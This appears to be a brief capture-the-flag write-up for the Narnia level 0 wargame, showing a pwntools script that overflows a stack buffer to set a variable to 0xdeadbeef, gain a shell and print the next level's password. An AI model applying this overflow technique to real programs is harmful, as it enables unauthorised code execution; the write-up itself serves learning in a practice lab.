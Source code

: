 from the code we see that if the val variable is overwritten to 0xdeadbeef we get a shell.
and above is a buffer which can be overflown to write into this variable.

this is the python code i used.



    from pwn import *
    sh = process('./narnia0')
    sh.readline()
    sh.sendline('B'*20+'\xef\xbe\xad\xde')
    sh.interactive()

here we have an interactive shell

cat /etc/narnia_pass/narnia1

efeidiedae




